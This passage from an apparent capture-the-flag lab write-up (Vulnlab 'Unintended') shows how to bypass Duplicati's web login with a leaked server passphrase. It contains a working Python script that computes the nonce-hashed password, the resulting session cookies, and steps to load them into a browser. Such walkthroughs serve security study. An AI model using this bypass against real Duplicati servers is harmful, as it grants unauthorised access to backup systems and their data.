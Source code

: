 We need to send a first request to `login.cgi` to get a nonce, then send a second request with the `password` parameter set as the SHA256 hash in Base64 of the nonce concatenated with `server-passphrase`.

Here is a script to automate the attack, `duplicati-login.py`:

```python
import requests
import base64
import hashlib

server_passphrase = 'ZhB5vA+1uCde2Gozh9/CXKfPt8MoNcUklyfk1vBuuQk='

s = requests.Session()

s.get('http://web.unintended.vl:8200/login.html')

r = s.post('http://web.unintended.vl:8200/login.cgi', data = {
    'get-nonce': 1
}).json()
nonce = r['Nonce']

saltedpwd_bin = base64.b64decode(server_passphrase)
noncedpwd = base64.b64encode(hashlib.sha256(base64.b64decode(nonce) + saltedpwd_bin).digest()).decode()

r = s.post('http://web.unintended.vl:8200/login.cgi', data = {
    'password': noncedpwd
})

print(f'Status code: {r.status_code}')
print(f'Cookies: {s.cookies}')
```

```shell-session
└─$ python3 duplicati-login.py
Status code: 200
Cookies: <RequestsCookieJar[<Cookie xsrf-token=p4ORaHNTOvntwOf79tH1o%2Fq6SVaSupLvNmQiSN4hIs4%3D for web.unintended.vl/>, <Cookie session-nonce=6Q46SzvPaU%2BVeK37dOVnWp%2Fw8k8NJmVg6u0TqVqq9D8%3D for web.unintended.vl/>, <Cookie session-auth=QsSMl8sEoSVHVJgXCz0iLKUGtBqDDBe2kBCQyAYVBwI for web.unintended.vl/>]>
```

At <http://web.unintended.vl:8200/login.html> we now add or replace the cookie values to what the script gave us (make sure the path is set to `/`).

![](/assets/vulnlab/chains/unintended/img/20.png)
